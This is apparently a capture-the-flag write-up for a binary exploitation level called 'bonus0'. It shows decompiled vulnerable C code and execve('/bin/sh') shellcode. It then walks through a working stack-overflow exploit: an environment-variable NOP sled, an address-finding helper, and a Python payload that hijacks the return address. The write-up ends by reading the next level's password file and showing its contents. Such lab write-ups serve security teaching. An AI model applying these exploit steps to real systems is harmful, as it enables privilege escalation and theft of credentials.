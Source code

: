 get the binary on host
* `scp -P 4242 bonus0@192.168.56.107:./bonus0 ./binary/bonus0`

decompile using ghidras

```c
undefined4 main(void)
{
	undefined local_3a [54];
	
	pp(local_3a);
	puts(local_3a);
	return 0;
}

void pp(char param_1[54])
{
	char cVar1;
	uint uVar2;
	char *pcVar3;
	byte bVar4;
	undefined local_34 [20];
	undefined local_20 [20];
	
	bVar4 = 0;
	p(local_34, " - ");
	p(local_20, " - ");
	strcpy(param_1,local_34);
	uVar2 = 4294967295;
	pcVar3 = param_1;
	do {
		if (uVar2 == 0) break;
		uVar2 = uVar2 - 1;
		cVar1 = *pcVar3;
		pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
	} while (cVar1 != '\0');
	*(undefined2 *)(param_1 + (~uVar2 - 1)) = 0x20;
	strcat(param_1,local_20);
	return;
}

void p(undefined4 param_1,undefined4 param_2)
{
	undefined *puVar1;
	undefined local_100c [4104];

	puts(param_2);
	read(0,local_100c, 4096);
	puVar1 = (undefined *)strchr(local_100c,10);
	*puVar1 = 0;
	strncpy(param_1,local_100c,20);
	return;
}
```
shell code :\
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

We search the len of the second string for which the program segfault\
Via dichotomy we found 17 char :
`python -c "print 'A'* 4095 + '\n' + 'B' * 17" > /tmp/exploit_bonus0; cat /tmp/exploit_bonus0 | ./bonus0`

We can't put our shellcode in the input of bonus0 so let's put it in the env and give bonus0 the addr of this env variable
`export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`
To get the addr we make a small program:
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	if (argc != 2)
		return (printf("need te env var you want the addr of\n"));
	printf("Var [%s] at addr [%p] = [%s]\n", argv[1], getenv(argv[1]), getenv(argv[1]));
	return 0;
}
```
We get this addr : `0xbffff82e` so we can do this to 

`python -c "print 'A'* 4095 + '\n' + 'B' * 9 + '\x2e\xf8\xff\xbf' + 'OSEF' * 20" > /tmp/exploit_bonus0; cat /tmp/exploit_bonus0 - | ./bonus0`
```
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```